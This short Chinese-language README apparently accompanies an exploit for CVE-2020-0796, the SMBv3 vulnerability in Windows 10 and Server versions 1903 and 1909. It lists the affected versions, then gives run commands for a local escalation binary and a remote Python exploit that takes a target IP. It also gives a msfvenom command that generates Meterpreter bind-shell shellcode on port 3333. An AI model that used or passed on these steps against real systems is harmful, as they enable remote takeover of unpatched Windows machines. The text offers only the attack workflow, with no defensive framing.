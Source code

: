 # CVE-2020-0796 smbv3 漏洞

-  影响版本
Windows 10 Version 1903 for 32-bit Systems

Windows 10 Version 1903 for x64-based Systems

Windows 10 Version 1903 for ARM64-based Systems

Windows Server, Version 1903 (Server Core installation)

Windows 10 Version 1909 for 32-bit Systems

Windows 10 Version 1909 for x64-based Systems

Windows 10 Version 1909 for ARM64-based Systems

Windows Server, Version 1909 (Server Core installation)

## 本地

**cve-2020-0796-local.exe**

`./运行`

## 远程
./CVE-2020-0796.py ip

shell获取
0x01 使用msf生成shellcode
msfvenom -p windows/x64/meterpreter/bind_tcp lport=3333 -f py -o shellcode.txt
